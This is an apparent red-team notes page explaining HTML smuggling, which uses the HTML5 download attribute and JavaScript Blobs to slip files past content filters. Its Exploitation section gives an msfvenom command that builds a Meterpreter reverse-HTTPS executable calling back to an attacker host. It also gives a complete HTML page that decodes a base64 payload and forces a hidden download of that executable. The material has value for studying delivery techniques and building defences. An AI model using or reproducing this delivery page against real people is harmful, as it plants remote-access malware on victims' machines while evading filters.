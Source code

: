 # ⭕ HTML Smuggling

{% embed url="https://outflank.nl/blog/2018/08/14/html-smuggling-explained" %}

{% embed url="https://github.com/Arno0x/EmbedInHTML" %}

Using a combination of HTML5 and JavaScript to sneak malicious files past content filters.This mechanism has been incorporated into popular offensive frameworks such as [Demiguise](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2017/august/smuggling-hta-files-in-internet-exploreredge/) and [SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) .



## <mark style="color:red;">HTML5 download attribute</mark>

HTML5 introduced the [“download” attribute](https://www.w3schools.com/tags/att\_a\_download.asp) for anchor tags. Consider the following line of HTML, which is supported by all modern browsers:

```
<a href="/files/doc123.doc" download="myfile.doc">Click</a>
```

When a user clicks on the hyperlink, the download attribute instructs the browser to download the target pointed to by the href attribute and save it to disk as “myfile.doc”. Of course, the anchor and its download attribute can also be created using JavaScript instead of HTML:

```
var myAnchor = document.createElement('a');
myAnchor.download = 'filename.doc';
```

## <mark style="color:red;">Blobs and URLs</mark>

A Blob is an immutable object that represents raw data. Blobs allow you to construct file-like objects on the client that you can pass to JavaScript APIs that expect URLs. Instead of requiring that the web server provides the file, the Blob can be constructed locally using pure JavaScript.

```
var myBlob = new Blob([myData], {type: 'octet/stream'});
```

This line creates a Blob of MIME type “octet/stream” and fills is with the data contained in variable myData. We can then use URL.createObjectURL to create a URL from our Blob object and have an anchor point to it:

```
var myUrl = window.URL.createObjectURL(blob);
myAnchor.href = myUrl;
```

Lastly, we can simulate a click on the anchor object using JavaScript’s HTMLElement.click() method:

```
myAnchor.click();
```

This will result in triggering the anchor’s click event, which in turn points to our Blob and which will be downloaded as “filename.doc” (since we specified the download attribute). These features are supported by all major modern browsers. For older versions of Internet Explorer (not Edge) we can revert to the msSaveBlob method to save a Blob object to disk.

## <mark style="color:red;">Exploitation</mark>

First, our Base64 code is placed into an array buffer, byte-by- byte.&#x20;

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe

base64 /var/www/html/msfstaged.exe
```

We’ll then place the array buffer into our Blob. Next, we’ll create a hidden “a” tag. The data from our Blob is then moved to the href reference of our “a” tag. Our Blob code in the href is given the file name of ‘msfnonstaged.exe’. Finally, a click action is performed to download our file. The complete webpage used to trigger the HTML smuggling with the Meterpreter executable is given below:

```
<html>
    <body>
        <script>
        function base64ToArrayBuffer(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);}
            return bytes.buffer;
        }
        var file ='BASE 64 ENCODED PAYLOAD'
        var data = base64ToArrayBuffer(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'msfstaged.exe';
        var a = document.createElement('a');
        document.body.appendChild(a);
        a.style = 'display: none';
        var url = window.URL.createObjectURL(blob);
        a.href = url;
        a.download = fileName;
        a.click();
        window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```
